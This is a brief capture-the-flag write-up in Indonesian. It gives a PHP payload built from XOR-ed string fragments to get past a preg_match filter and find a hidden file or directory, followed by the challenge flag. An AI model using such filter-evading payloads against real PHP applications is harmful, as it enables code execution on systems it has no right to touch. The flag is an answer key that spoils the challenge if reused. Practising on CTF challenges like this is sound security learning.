 Masih lanjut dengan challenge sebelumnya, akan tetapi Mimin ada naruh variabel / object / file / directory pada kode tersebut :(, Bisa tolong carikan gaak.

Payload

```php
("+^]])?^"^"[,43]`,")(("@@@480"^"393@]]")(("[]4"^"8<@")." ".("38@!@[@<"^"@]#~&7![")))
```

Flag

```
CTFR{n0w_y0u_l34rn_h0w_t0_byp455_pr39_m4tch}
```